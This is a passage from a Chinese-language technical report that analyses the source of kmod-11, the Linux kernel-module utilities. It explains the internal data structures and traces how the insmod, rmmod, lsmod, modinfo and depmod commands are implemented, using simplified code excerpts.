struct kmod_list *kmod_list_remove_data(struct kmod_list *list,
                                    const void *data) _must_check_ __attribute__((nonnull(2)));
struct kmod_list *kmod_list_remove_n_latest(struct kmod_list *list,
                                            unsigned int n) _must_check_;
struct kmod_list *kmod_list_insert_after(struct kmod_list *list, const void *data) __attribute__((nonnull(2)));
struct kmod_list *kmod_list_insert_before(struct kmod_list *list, const void *data) __attribute__((nonnull(2)));
struct kmod_list *kmod_list_append_list(struct kmod_list *list1, struct kmod_list *list2) _must_check_;

#define kmod_list_foreach(list_entry, first_entry) \
    for (list_entry = ((first_entry) == NULL) ? NULL : (first_entry); \
            list_entry != NULL; \
            list_entry = (list_entry->node.next == &((first_entry)->node)) ? NULL : \
            container_of(list_entry->node.next, struct kmod_list, node))
\end{verbatim}\end{shaded}}
\subsection{kmod\_config 内核模块配置}

该模块是隶属于 kmod\_ctx 模块的一个成员变量,用来支持 kmod\_ctx
模块的实现。在 kmod\_new 函数的实现中,需要传递一个 config\_paths
字符串变量,这个变量将作为 kmod\_config\_new 的参数,创建出一个
kmod\_config 变量,用来填充 kmod\_ctx 数据结构中的
*config,表示配置文件所在的路径。如果默认是NULL,则会到以下3个路径中去寻找
/run/modprobe.d/ ,/lib/modprobe.d/ ,/etc/modprobe.d/ , 否则,则会将
config\_paths 作为一个指针数组的基地址,用 config\_paths{[}i{]}
来遍历整个指针数组,获得每一个路径 char * path =
config\_paths{[}i{]},然后用 path 来创建 conf\_files\_list 。

该模块主要的实现代码在 libkmod/libkmod-config.c, 其中结构体的定义在
kmod-11/libkmod/libkmod-private.h 中。

\subsubsection{struct kmod\_config 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_config {
    struct kmod_ctx *ctx;
    struct kmod_list *aliases;
    struct kmod_list *blacklists;
    struct kmod_list *options;
    struct kmod_list *remove_commands;
    struct kmod_list *install_commands;
    struct kmod_list *softdeps;

    struct kmod_list *paths;
};

int kmod_config_new(struct kmod_ctx *ctx, struct kmod_config **p_config, const char * const *config_paths)
void kmod_config_free(struct kmod_config *config)
\end{verbatim}\end{shaded}}
\subsection{hash 哈希表模块}

该模块是隶属于 kmod\_ctx 模块的一个成员变量,用来支持 kmod\_ctx
模块的实现。

该模块主要的实现代码都在 libkmod/libkmod-hash.c。

\subsubsection{struct hash 结构体定义}

{\begin{shaded}\begin{verbatim}
struct hash {
    unsigned int count;
    unsigned int step;
    unsigned int n_buckets;
    void (*free_value)(void *value);
    struct hash_bucket buckets[];
};

struct hash *hash_new(unsigned int n_buckets, void (*free_value)(void *value));
void hash_free(struct hash *hash);
int hash_add(struct hash *hash, const char *key, const void *value);
int hash_add_unique(struct hash *hash, const char *key, const void *value);
int hash_del(struct hash *hash, const char *key);
void *hash_find(const struct hash *hash, const char *key);
unsigned int hash_get_count(const struct hash *hash);
void hash_iter_init(const struct hash *hash, struct hash_iter *iter);
bool hash_iter_next(struct hash_iter *iter, const char **key,
                                                    const void **value);
\end{verbatim}\end{shaded}}
\subsection{index\_mm 索引查找模块}

该模块是隶属于 kmod\_ctx 模块的一个成员变量,用来支持 kmod\_ctx
模块的实现。

该模块主要的实现代码都在 libkmod/libkmod-index.c

\subsubsection{struct index\_mm 结构体定义}

{\begin{shaded}\begin{verbatim}
struct index_mm {
    struct kmod_ctx *ctx;
    void *mm;
    uint32_t root_offset;
    size_t size;
};

struct index_file *index_file_open(const char *filename);
void index_file_close(struct index_file *idx);
char *index_search(struct index_file *idx, const char *key);
void index_dump(struct index_file *in, int fd, const char *prefix);
struct index_value *index_searchwild(struct index_file *idx, const char *key);

void index_values_free(struct index_value *values);

/* Implementation using mmap */
struct index_mm *index_mm_open(struct kmod_ctx *ctx, const char *filename,
                                            unsigned long long *stamp);
void index_mm_close(struct index_mm *index);        
char *index_mm_search(struct index_mm *idx, const char *key);
struct index_value *index_mm_searchwild(struct index_mm *idx, const char *key);
void index_mm_dump(struct index_mm *idx, int fd, const char *prefix);
\end{verbatim}\end{shaded}}
\subsection{elf 文件分析模块}

该模块是一个在 kmod\_elf
内部实现的一系列接口的统称,本身并没有一个同名的数据结构,其中比较具有相关性的一个数据结构就是
kmod\_elf\_header。这个数据结构隶属于 kmod\_elf,用来支持 kmod\_elf
模块的实现。

\subsubsection{struct kmod\_elf\_header 结构体定义}

{\begin{shaded}\begin{verbatim}
struct kmod_elf_header {
        struct {
                uint64_t offset;
                uint16_t count;
                uint16_t entry_size;
        } section;
        struct {
                uint16_t section; /* index of the strings section */
                uint64_t size;
                uint64_t offset;
                uint32_t nameoff; /* offset in strings itself */
        } strings;
        uint16_t machine;
} header;


enum kmod_elf_class {
    KMOD_ELF_32 = (1 << 1),
    KMOD_ELF_64 = (1 << 2),
    KMOD_ELF_LSB = (1 << 3),
    KMOD_ELF_MSB = (1 << 4)
};
\end{verbatim}\end{shaded}}
elf 模块的接口主要包含 elf\_get\_mem, elf\_get\_section\_header,
elf\_get\_strings\_section 这几个常用的,用来分析 elf 文件的内部结构。

{\begin{shaded}\begin{verbatim}
static int elf_identify (const void *memory, uint64_t size)
static uint64_t elf_get_uint (const struct kmod_elf *elf, uint64_t offset, uint16_t size)
static int elf_set_uint (struct kmod_elf *elf, uint64_t offset, uint64_t size, uint64_t value)
static const void *elf_get_mem (const struct kmod_elf *elf, uint64_t offset)
static const void *elf_get_section_header (const struct kmod_elf *elf, uint16_t idx)
static int elf_get_section_info (const struct kmod_elf *elf, uint16_t idx, uint64_t *offset, uint64_t *size, uint32_t *nameoff)
static const char * elf_get_strings_section (const struct kmod_elf *elf, uint64_t *size)
\end{verbatim}\end{shaded}}
\subsection{list 链表模块}

该模块是一个基础类的功能模块,它是一个抽象的数据结构 list
的实现。可以用来支持 kmod\_list,等于是用 kmod\_list 对 list
做了一层封装,也相当于是一个抽象层的概念,然后在这个项目中,更多的使用
kmod\_list 来支持其他的数据结构。例如 kmod\_config,kmod\_module
中都是直接使用了 kmod\_list 数据结构,而不是 list。

其中结构体 struct link\_node 的定义在 kmod-11/libkmod/libkmod-private.h
中。

\subsubsection{struct list\_node 结构体定义}

{\begin{shaded}\begin{verbatim}
struct list_node {
    struct list_node *next, *prev;
};

static struct list_node * list_node_init (struct list_node *node)
static struct list_node * list_node_next (const struct list_node *node)
static struct list_node * list_node_prev (const struct list_node *node)
static void list_node_append (struct list_node *list, struct list_node *node)
static struct list_node * list_node_remove (struct list_node *node)
static void list_node_insert_after (struct list_node *list, struct list_node *node)
static void list_node_insert_before (struct list_node *list, struct list_node *node)
static void list_node_append_list (struct list_node *list1, struct list_node *list2)
\end{verbatim}\end{shaded}}
\subsection{array 动态数组模块}

该模块的主要功能是实现一个动态数组,完成动态数组所需要的初始化init,
插入append,删除remove\_at,排序sort 等几个重要的操作。在 depmod
命令的实现中,array
至关重要,正是通过构建了这个动态数组,完成了对这个数组的 sort
排序操作,才得以最终输出 modules.dep 文件,为 modprobe 命令做好了准备。

通过 grep 命令 grep -rns ``array\_init'' kmod-11/* 可以看出,在整个 kmod
项目中,只有 depmod 命令用到了 array
的支持,其他地方都没有用到。但这个模块是一个通用模块,值得我们学习和研究。

该模块主要的实现代码都在 libkmod/libkmod-array.c, 其中结构体 struct
array 的定义在 kmod-11/libkmod/libkmod-array.h 中。

\subsubsection{struct array 结构体定义}

{\begin{shaded}\begin{verbatim}
struct array {
    void **array;
    size_t count;
    size_t total;
    size_t step;
};

void array_init(struct array *array, size_t step);
int array_append(struct array *array, const void *element);
int array_append_unique(struct array *array, const void *element);
void array_pop(struct array *array);
void array_free_array(struct array *array);
void array_sort(struct array *array, int (*cmp)(const void *a, const void *b));
int array_remove_at(struct array *array, unsigned int pos); 
\end{verbatim}\end{shaded}}
\subsection{log 日志记录模块}

该模块的主要功能是实现一个日志记录打印输出功能,这个模块中最核心的函数就是
kmod\_log ,该函数的实现代码都在 libkmod/libkmod-list.c 。

{\begin{shaded}\begin{verbatim}
void kmod_log(const struct kmod_ctx *ctx,
          int priority, const char *file, int line, const char *fn,
          const char *format, ...)
\end{verbatim}\end{shaded}}
但是,这个函数并不是直接被调用,而是通过一个宏定义 kmod\_log\_cond
间接调用,这个宏定义引入了打印优先级 prio
的概念,使得所有日志打印输出都是根据优先级的有条件输出。另外还有一个
kmod\_log\_null 是一个空打印函数。有关这个部分的实现可以参考
kmod-11/libkmod/libkmod-private.h 文件。

{\begin{shaded}\begin{verbatim}
 14 #define kmod_log_cond(ctx, prio, arg...) \
 15         do { \
 16                 if (kmod_get_log_priority(ctx) >= prio) \
 17                 kmod_log(ctx, prio, __FILE__, __LINE__, __func__, ## arg);\
 18         } while (0)

 11 static _always_inline_ _printf_format_(2, 3) void
 12         kmod_log_null(struct kmod_ctx *ctx, const char *format, ...) {}
 13
\end{verbatim}\end{shaded}}
以下实现的 DGB(), INFO(), ERR() 在各个模块中都有用到。

{\begin{shaded}\begin{verbatim}
 20 #ifdef ENABLE_LOGGING
 21 #  ifdef ENABLE_DEBUG
 22 #    define DBG(ctx, arg...) kmod_log_cond(ctx, LOG_DEBUG, ## arg)
 23 #  else
 24 #    define DBG(ctx, arg...) kmod_log_null(ctx, ## arg)
 25 #  endif
 26 #  define INFO(ctx, arg...) kmod_log_cond(ctx, LOG_INFO, ## arg)
 27 #  define ERR(ctx, arg...) kmod_log_cond(ctx, LOG_ERR, ## arg)
 28 #else
 29 #  define DBG(ctx, arg...) kmod_log_null(ctx, ## arg)
 30 #  define INFO(ctx, arg...) kmod_log_null(ctx, ## arg)
 31 #  define ERR(ctx, arg...) kmod_log_null(ctx, ## arg)
 32 #endif
\end{verbatim}\end{shaded}}
\section{运行流程分析}

\subsection{命令实现流程概述}

因为所有命令的实现机制是相同的,都是采用了一个统一的调用方法,所以我们以
insmod 命令为例,介绍一下命令实现流程。

每一个命令,都定义实现了一个 struct kmod\_cmd
的数据结构,这个数据结构定义在 kmod-11/tools/kmod.h 文件中。

{\begin{shaded}\begin{verbatim}
struct kmod_cmd {
    // name 表示执行的命令,以字符串的方式存储,用于匹配命令
    const char *name;
    // cmd 表示该命令所对应的 main 函数指针
    int (*cmd)(int argc, char *argv[]);
    // help 表示该命令的功能作用的字符串
    const char *help;
};
\end{verbatim}\end{shaded}}
在 kmod-11/tools/insmod.c 文件中,用这个结构体定义了一个
kmod\_cmd\_compat\_insmod
变量,最后这个变量会添加到整个项目所支持的命令集
kmod\_compat\_cmds数组中。

{\begin{shaded}\begin{verbatim}
160 // insmod 命令所需要提供的数据结构
161 const struct kmod_cmd kmod_cmd_compat_insmod = {
162         .name = "insmod",
163         .cmd = do_insmod,
164         .help = "compat insmod command",
165 };
\end{verbatim}\end{shaded}}
在 kmod-11/tools/kmod.c 文件中,实现了一个通用的 main 方法。在这个 main
函数中,实现了所有命令调用的真正入口。 其中用到了一个
program\_invocation\_short\_name
变量,是一个全局变量,它代表了当前程序执行时候的可执行文件名。 通过查看
man program\_invocation\_short\_name 帮助,可以看到其实一共有 2
个全局变量,名字很接近,其中一个是长路径,另一个是当前可执行文件名称。

{\begin{shaded}\begin{verbatim}
#define _GNU_SOURCE         /* See feature_test_macros(7) */
#include <errno.h>

// 这个变量是长路径名 program_invocation_name = ./kmod-11/tools/lsmod
extern char *program_invocation_name;

// 这个变量是可执行文件名 program_invocation_short_name = lsmod
extern char *program_invocation_short_name;

166 int main(int argc, char *argv[])
167 {
168         int err;
169 
170         if (strcmp(program_invocation_short_name, "kmod") == 0)
171                 err = handle_kmod_commands(argc, argv);
172         else
173                 err = handle_kmod_compat_commands(argc, argv);
174 
175         return err;
176 }
\end{verbatim}\end{shaded}}
在这个main函数中,调用了 handle\_kmod\_commands 和
handle\_kmod\_compat\_commands 这2个函数。 其中第一个支持 kmod
系统命令,这个 kmod 命令目前暂时只支持 kmod help 和 kmod list 两个子命令,
第二个支持早期的 insmod/rmmod/modinfo/lsmod/depmod/modprobe 这6个 compat
兼容命令。

{\begin{shaded}\begin{verbatim}
149 
150 static int handle_kmod_compat_commands(int argc, char *argv[])
151 {
152         const char *cmd;
153         size_t i;
154 
155         cmd = basename(argv[0]);
156 
157         for (i = 0; i < ARRAY_SIZE(kmod_compat_cmds); i++) {
158                 if (strcmp(kmod_compat_cmds[i]->name, cmd) == 0)
159                         return kmod_compat_cmds[i]->cmd(argc, argv);
160         }
161 
162         return -ENOENT;
163 }
164 
\end{verbatim}\end{shaded}}
handle\_kmod\_compat\_commands 这个函数很简单,就是一个for循环遍历整个
kmod\_compat\_cmds,找出每一个 kmod\_compat\_cmds{[}i{]} 来进行名称 name
匹配,如果匹配上了,就调用相应的函数指针 cmd 来执行该操作。

kmod\_compat\_cmds 这个数组目前有6个元素,分别就是在 insmod.c rmmod.c
lsmod.c modinfo.c depmod.c modprobe.c 这6个文件中定义的全局结构体。

{\begin{shaded}\begin{verbatim}
 44
 45 static const struct kmod_cmd *kmod_compat_cmds[] = {
 46         &kmod_cmd_compat_lsmod,
 47         &kmod_cmd_compat_rmmod,
 48         &kmod_cmd_compat_insmod,
 49         &kmod_cmd_compat_modinfo,
 50         &kmod_cmd_compat_modprobe,
 51         &kmod_cmd_compat_depmod,
 52 };
\end{verbatim}\end{shaded}}
最后所有 tools
目录下的可执行文件,都是以软链接的方式,链接到唯一的一个可执行文件
kmod-nolib 上。

{\begin{shaded}\begin{verbatim}
$ ls kmod-11/tools/ -l | grep ^l
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 depmod -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 insmod -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 lsmod -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 modinfo -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 modprobe -> kmod-nolib
lrwxrwxrwx 1 akaedu akaedu     10 Jun  9 19:23 rmmod -> kmod-nolib
$ 
\end{verbatim}\end{shaded}}
我们可以用一张图来表示这些文件和数据结构之间的关系。

\begin{figure}[htbp]
\centering

\includegraphics{./figures/cmd.jpg}
\caption{命令实现结构图}
\end{figure}

以下内容为分析6个命令的实现流程,为了做到重点突出,逻辑明晰,仅对每个命令实现代码中的第一层和第二层函数调用进行分析。
对于第三层的重要函数的实现分析,将放到核心代码分析章节中,不在本章节中展开。这样做的目的,主要是希望能够在有限的篇幅中,
把实现每个命令所调用的最重要的库函数接口体现出来,避免在繁冗复杂的函数接口列表中无重点的分析。

注意这个小节中后面的绝大部分代码都不是原代码的直接引用,而是将其中最核心的函数调用和传入传出的参数整理到函数体内部,为便于查看函数调用关系而做了简化。
因此可能有的变量没有清楚的定义,有的函数没有给出参数和返回值,也包括有的逻辑关系做了删减。但重要的调用关系都保留下来。

\subsection{insmod 命令实现流程}

\textbf{do\_insmod 核心代码分析}

分析到这里,我们就进入到了 insmod 命令实现最核心的部分 do\_insmod()
函数,后面的其他几个命令也都是类似的方法,进入到 do\_xxx()
中,之后的分析关于这部分不再赘述。下面我们来看看 do\_insmod()
函数实现中最核心的部分代码摘要。

{\begin{shaded}\begin{verbatim}
do_insmod()
{
    // 将 insmod 命令的参数传给 opts 指针
    opts = argv[x]; // name=value

    // 创建 kmod 库上下文
    ctx = kmod_new(NULL, &null_config);

    // 从路径名 path 创建 kmod module
    err = kmod_module_new_from_path(ctx, filename, &mod);

    // 插入 kmod module 单个文件,不包含依赖关系
    err = kmod_module_insert_module(mod, 0, opts);

    // 释放当前模块,给当前模块的引用计数减1
    kmod_module_unref(mod);

    // 释放 kmod 库上下文
    kmod_unref(ctx);
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/insmod.jpg}
\caption{insmod 调用层次图}
\end{figure}

do\_insmod() 的实现可以分为5个步骤

\begin{itemize}
\item
  创建模块的上下文 struct kmod\_ctx ctx
\item
  通过 filename 和 ctx 获得模块 struct kmod\_module mod
\item
  将 mod 插入到当前模块列表中, 通过 kmod\_module\_insert\_module
  完成真正的插入内核功能
\item
  释放 mod
\item
  释放 ctx
\end{itemize}
涉及到两个模块的5个接口,两个模块是

\begin{itemize}
\item
  libkmod/libkmod.c
  \begin{itemize}
  \item
    kmod\_new()
  \item
    kmod\_unref()
  \end{itemize}
\item
  libkmod/libkmod-module.c
  \begin{itemize}
  \item
    kmod\_module\_new\_from\_path()
  \item
    kmod\_module\_insert\_module()
  \item
    kmod\_module\_unref()
  \end{itemize}
\end{itemize}
可以看出,这里真正最后完成插入操作的函数是
kmod\_module\_insert\_module(mod, 0, opts);
这个函数在我们下面的函数接口分析中还会详细阐述。

\subsection{rmmod 命令实现流程}

\textbf{do\_rmmod 核心代码分析}

下面我们来看看 do\_rmmod() 函数实现中最核心的部分代码摘要。

{\begin{shaded}\begin{verbatim}
do_rmmod()
{
    //  打开日志文件, 调用了系统的 openlog()
    log_open(use_syslog);

    // 创建 kmod 库上下文 
    ctx = kmod_new(NULL, &null_config);

    // 设置 kmod log 日志输出的优先级
    log_setup_kmod_log(ctx, verbose);
    arg = argv[i];

    // 从路径名 path 创建 kmod module
    err = kmod_module_new_from_path(ctx, arg, &mod);

    // 从文件名 name 创建 kmod module
    err = kmod_module_new_from_name(ctx, arg, &mod);

    // 检查模块是否正在使用,通过引用计数来帮助判断是否真正需要卸载模块
    check_module_inuse(mod);

    // 卸载 kmod module 单个文件,不包含依赖关系
    err = kmod_module_remove_module(mod, flags);

    // 释放当前模块
    kmod_module_unref(mod);

    // 释放 kmod 库上下文
    kmod_unref(ctx);

    // 关闭日志文件,调用 closelog()
    log_close();
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/rmmod.jpg}
\caption{rmmod 调用层次图}
\end{figure}

do\_rmmod() 的实现相比 do\_insmod() 的实现,主要是多了一个 log 的模块

\begin{itemize}
\item
  打开日志 log
\item
  创建模块的上下文 struct kmod\_ctx ctx
\item
  通过 path/name 和 ctx 获得模块 struct kmod\_module mod
\item
  判别当前模块是否在使用中,如果在使用则不能卸载,释放相关资源后返回
\item
  如果不在使用中,则通过 kmod\_module\_remove\_module 将 mod
  从当前模块列表中卸载
\item
  释放 mod
\item
  释放 ctx
\item
  关闭日志 log
\end{itemize}
涉及到3个模块的8个接口,3个模块和相关接口是

\begin{itemize}
\item
  libkmod/libkmod.c
  \begin{itemize}
  \item
    kmod\_new()
  \item
    kmod\_unref()
  \end{itemize}
\item
  libkmod/libkmod-module.c
  \begin{itemize}
  \item
    kmod\_module\_new\_from\_path()
  \item
    kmod\_module\_insert\_module()
  \item
    kmod\_module\_unref()
  \end{itemize}
\item
  libkmod/tools/log.c
  \begin{itemize}
  \item
    log\_open()
  \item
    log\_close()
  \item
    log\_setup\_kmod\_log()
  \end{itemize}
\end{itemize}
可以看出,这里真正最后完成插入操作的函数是
kmod\_module\_insert\_module(mod, 0, opts);
这个函数在我们下面的函数接口分析中还会详细阐述。

\subsection{lsmod 命令实现流程}

\textbf{do\_lsmod() 核心代码分析}

{\begin{shaded}\begin{verbatim}
static int do_lsmod(int argc, char *argv[])
{
    struct kmod_list *list, *itr;

    // 创建 kmod 库上下文
    ctx = kmod_new(NULL, &null_config);

    // 从 /proc/modules 文件创建 kmod module list    
    err = kmod_module_new_from_loaded(ctx, &list);
    puts("Module                  Size  Used by");

    // 遍历 list 链表,对每一个元素 itr 进行下面的操作
    kmod_list_foreach(itr, list) {
        // 从链表节点的数据区域 获得 kmod module 指针
            struct kmod_module *mod = kmod_module_get_module(itr);
        // 从模块指针获得模块名
            const char *name = kmod_module_get_name(mod);
        // 从模块指针获得模块引用计数
            int use_count = kmod_module_get_refcnt(mod);
        // 从模块指针获得模块文件大小
            long size = kmod_module_get_size(mod);

        printf("%-19s %8ld  %d ", name, size, use_count);
        // 从模块指针获得当前正在使用这个模块的模块列表 list
        holders = kmod_module_get_holders(mod);
            kmod_list_foreach(hitr, holders) {
            // 从链表节点的数据区域 获得 kmod module 指针
                    struct kmod_module *hm = kmod_module_get_module(hitr);
            // 打印出当前这个 holder 的 name 
                    fputs(kmod_module_get_name(hm), stdout);
            // 释放当前模块
                    kmod_module_unref(hm);
            }
            // 释放当前 holder 列表
        kmod_module_unref_list(holders);
        // 释放当前模块
            kmod_module_unref(mod);
    }
    // 释放当前模块列表
    kmod_module_unref_list(list);
    // 释放当前库上下文
    kmod_unref(ctx);

    return EXIT_SUCCESS;
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/lsmod.jpg}
\caption{lsmod 调用层次图}
\end{figure}

lsmod 命令的实现代码中,最重要的一个调用,就是
kmod\_module\_new\_from\_loaded,这个函数主要通过分析 /proc/modules
文件的输出,将已经加载到内存中的内核模块按照 kmod\_list
的数据结构,依次添加到 list 链表中,完成 list 中数据的组装。

后面的实现部分,主要是通过 kmod\_list\_foreach
的宏,遍历整个链表,取出每一个模块 mod =
kmod\_module\_get\_module(itr),获得模块的名字name,
引用计数refcnt,以及模块的大小size,把这3个最重要的信息打印出来,并按照一定的格式进行显示输出。

其中如果某个模块被其他别的模块正在使用,将会把这个 Use by
信息也打印出来,用逗号间隔。

举例:

{\begin{shaded}\begin{verbatim}
$ lsmod
Module                  Size  Used by
vmwgfx                102138  2 
ttm                    65344  1 vmwgfx
drm                   197692  3 vmwgfx,ttm
\end{verbatim}\end{shaded}}
\subsection{modinfo 命令实现流程}

\textbf{do\_modinfo() 核心代码分析}

{\begin{shaded}\begin{verbatim}
static int do_modinfo(int argc, char *argv[])
{
    // 创建 kmod 库上下文
    ctx = kmod_new(dirname, &null_config);

    // 可以支持同时在一条命令中查看多个模块的信息
    for (i = optind; i < argc; i++) {
            const char *name = argv[i];
        // 如果当前给定的名字是 模块名 path ,则调用 modinfo_path_do
        // 如果当前给定的名字是 别名 alias ,则调用 modinfo_alias_do
            if (is_module_filename(name))
                    r = modinfo_path_do(ctx, name);
            else 
                    r = modinfo_alias_do(ctx, name);

            if (r < 0)
                    err = r;
    }   

    // 释放当前库上下文
    kmod_unref(ctx);
    return err >= 0 ? EXIT_SUCCESS : EXIT_FAILURE;
}
\end{verbatim}\end{shaded}}
\begin{figure}[htbp]
\centering

\includegraphics{./figures/modinfo.jpg}
\caption{modinfo 调用层次图}
\end{figure}

modinfo 命令中最重要的调用就是 modinfo\_path\_do 和 modinfo\_alias\_do
,这2个接口,其中前者是直接根据模块的绝对路径来找到模块文件并读出其中的相关信息,后者是通过
alias 别名来查找到所有别名为 alias 的模块(可能1个,也可能是很多个),通过
modules.alias
文件中的别名和真实文件名的对应关系,找到所有对应的模块文件,并逐一显示每一个模块的信息。有关于此的操作,在上面的
modinfo 命令运行时调试图小节中已经阐述过,这里不再赘述。

{\begin{shaded}\begin{verbatim}
static int modinfo_path_do(struct kmod_ctx *ctx, const char *path)
{
    struct kmod_module *mod;
    // 从路径名 path 创建 kmod module
    int err = kmod_module_new_from_path(ctx, path, &mod);

    // 输出传入参数 mod 的 info 信息
    err = modinfo_do(mod);

    // 释放当前模块
    kmod_module_unref(mod);
    return err;
}

static int modinfo_alias_do(struct kmod_ctx *ctx, const char *alias)
{
    struct kmod_list *l, *filtered, *list = NULL;

    // 从文件别名 alias 创建 kmod module list
    int err = kmod_module_new_from_lookup(ctx, alias, &list);

    // 对当前的 kmod module list 使用过滤器生成新的 list (filtered)
    err = kmod_module_apply_filter(ctx, KMOD_FILTER_BUILTIN, list, &filtered);

    // 删除 kmod list 链表 list 中的每一个节点
    kmod_module_unref_list(list);

    // 遍历新生成的 filtered 链表
    kmod_list_foreach(l, filtered) {

        // 从链表节点的数据区域 获得 kmod module 指针
            struct kmod_module *mod = kmod_module_get_module(l);

        // 输出传入参数 mod 的 info 信息             
        int r = modinfo_do(mod);

        // 释放当前模块
            kmod_module_unref(mod);
            if (r < 0)
                    err = r;
    }

    // 删除 kmod list 链表 filtered 中的每一个节点
    kmod_module_unref_list(filtered);
    return err;
}
\end{verbatim}\end{shaded}}
从上面的代码可以看出,通过 modinfo\_path\_do 只会找到一个 mod
进行输出,而通过 modinfo\_alias\_do 会根据 alias 找到一个 mod 的 list
然后逐一输出。无论那种方式,最终都是调用 modinfo\_do 来对单个模块 mod
的信息进行输出,因此 modinfo\_do 可以看成是实现 modinfo
命令的核心函数,从调用层次图中不难看出,这个函数主要使用了 kmod\_module
模块提供的各种 get 功能调用来完成对模块信息的提取。

\textbf{modinfo\_do() 核心代码分析} 该函数是实现 modinfo
命令的重要函数,模块信息的主要表示方式就是 key : value ,例如 author :
tsinghuaer

{\begin{shaded}\begin{verbatim}
static int modinfo_do(struct kmod_module *mod)
{
    struct kmod_list *l, *list = NULL;
    struct param *params = NULL;

    // 从模块指针获得模块的完整路径名
    printf("%s%c", kmod_module_get_path(mod), separator);

    // 核心函数,获得所有信息 到 list 表中
    err = kmod_module_get_info(mod, &list);

    // 遍历整个 list 数组
    kmod_list_foreach(l, list) {

        // 获取 l-data->key 
            const char *key = kmod_module_info_get_key(l);

        // 获取 l-data->value
            const char *value = kmod_module_info_get_value(l);

        // 打印 key 和 alue,类似 license:        GPL
            printf("%s:%-*s%s%c", key, 15 - keylen, "", value, separator);
    }

    // 释放当前链表 list
    kmod_module_info_free_list(list);

    return err;
}
\end{verbatim}\end{shaded}}
在后面的核心代码分析章节中,我们会对这个函数 kmod\_module\_get\_info
来进行详细的分析。

\subsection{depmod 命令实现流程}

\textbf{do\_depmod() 核心代码分析}

{\begin{shaded}\begin{verbatim}
do_depmod(int argc, char *argv[])
{
    out = stdout;   

    // 创建 kmod 库上下文
    ctx = kmod_new(cfg.dirname, &null_kmod_config);

    // 对 struct depmod 结构体进行初始化,将传入 cfg 和 ctx 赋值给结构体
    err = depmod_init(&depmod, &cfg, ctx);

    // 使用通过 -E 参数传入的 Module.symvers 文件
    err = depmod_load_symvers(&depmod, module_symvers);

    // 使用通过 -F 参数指定的 内核符号表文件
    err = depmod_load_system_map(&depmod, system_map);

    // 读取配置文件目录,加载配置文件到一个list中
    err = cfg_load(&cfg, config_paths);

